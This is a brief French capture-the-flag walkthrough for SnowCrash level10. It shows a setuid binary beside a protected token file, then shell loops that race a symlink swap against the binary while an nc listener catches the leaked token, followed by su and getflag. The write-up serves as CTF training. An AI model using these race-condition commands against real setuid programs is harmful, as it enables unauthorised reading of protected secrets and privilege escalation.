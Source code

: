 Avec la commande **ls**, on trouve un fichier binaire **level10** et un fichier **token**.

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```



```bash
while true ; do ln -sf ~/token /tmp/link; ln -sf /tmp/t /tmp/link; done
```

```bash
while true; do nc -l 6969 & ./level10 /tmp/link 0.0.0.0; done
```

On aura éventuellement le flag qui apparaîtra.


Puis on récupère le flag via l'utilisateur **flag10**.

```bash
su -c getflag - flag10
```
